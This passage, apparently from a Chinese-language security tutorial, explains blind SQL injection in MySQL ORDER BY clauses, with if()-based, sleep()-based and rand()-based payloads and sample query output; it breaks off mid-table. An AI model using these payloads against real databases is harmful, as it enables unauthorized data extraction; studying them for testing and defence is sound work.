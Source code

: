 ##### 基于if()盲注
**需要知道列名的情况:**
&emsp;&emsp;order by的列不同，返回的页面当然也是不同的，所以就可以根据排序的列不同来盲注。

	```sql
	order by if(1=1,id,username);
	```

&emsp;&emsp;这里如果使用数字代替列名是不行的，因为if语句返回的是**字符类型**,不是整型.
    
**不必知道列名:**
payload:
	```sql
	order by if(表达式,1,(select id from information_schema.tables))
	```

&emsp;&emsp;如果表达式为false时，sql语句会报ERROR 1242 (21000): Subquery returns more than 1 row的错误，导致查询内容为空，如果表达式为true是，则会返回正常的页面。
    
###### 基于时间

    ```sql
    order by if(1=1,1,sleep(1))
    ```    
测试:
    
    ```sql
    select * from ha order by if(1=1,1,sleep(1)); #正常时间
    select * from ha order by if(1=2,1,sleep(1)); #有延迟
    ```

&emsp;&emsp;测试的时候发现延迟的时间并不是sleep(1)中的1秒，而是大于1秒。 最后发现延迟的时间和所查询的数据的条数是成倍数关系的.计算公式:
    ```sql
    延迟时间=sleep(1)的秒数*所查询数据条数
    ```
&emsp;&emsp;我所测试的表中有四条数据,所以延迟了4秒。如果查询的数据很多时，延迟的时间就会很长了。 在写脚本时，可以添加timeout这一参数来避免延迟时间过长这一情况。
    
    ###### 基于rand()的盲注

原理与上面类似,看例子:
    ```sql
    mysql> select * from ha order by rand(true);
    +----+------+
    | id | name |
    +----+------+
    |  9 | NULL |
    |  6 | NULL |
    |  5 | NULL |
    |  1 | dss  |
    |  0 | dasd |
    +----+------+
    mysql> select * from ha order by rand(false);
    +----+------+
    | id | name |
    +----+------+
    |  1 | dss  |
    |  6 | NULL |
    |  0 | dasd |
    |  5 | NULL |